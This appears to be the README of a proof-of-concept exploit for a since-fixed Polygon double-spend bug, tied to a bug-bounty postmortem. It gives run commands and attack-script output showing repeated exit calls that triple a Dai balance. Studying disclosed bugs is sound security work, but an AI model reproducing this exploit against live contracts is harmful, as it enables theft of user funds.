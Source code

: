 # Polygon PoC

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN 

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
------ Exploit: verifyInclusion byte discard bug ------------
🧛 before:  balance is 0.0 Dai
------> Step 1: call processExits() to make a normal withdrawal
Transaction sent: 0xf54e0cd4996ec0a3523c017ed1b61f2a494c3e2b7ffc9c9bf6360c98354d9093
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 223
  Transaction confirmed   Block: 13260336   Gas used: 132896 (1.98%)

🧛 After:  balance is 33000.0 Dai
------> Step 2: call startExitWithBurntTokens() repeatedly to mint ExitNFT
Transaction sent: 0x82203a44ce765ca55e39e6e811663ab49bc7d9b68599dfe902098ebe3fbb3067
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 224
  Transaction confirmed   Block: 13260337   Gas used: 381572 (5.68%)

Transaction sent: 0x6bd72f6dedadea65c599318ac935e61d2f22d2a1dfe198f08a137b4040e59890
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 225
  Transaction confirmed   Block: 13260338   Gas used: 381572 (5.68%)

🧛 before:  balance is 33000.0 Dai
------> Step 3: call processExits() to make multiple withdrawals
Transaction sent: 0xf301cf02c17ee2504bd532efa244e0622151f94525d1dfed91b69db07b23631e
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 226
  Transaction confirmed   Block: 13260339   Gas used: 122391 (1.82%)

🧛 After:  balance is 99000.0 Dai

```
> The block number this poc select is 13260334

## link 

* https://medium.com/immunefi/polygon-double-spend-bug-fix-postmortem-2m-bounty-5a1db09db7f1
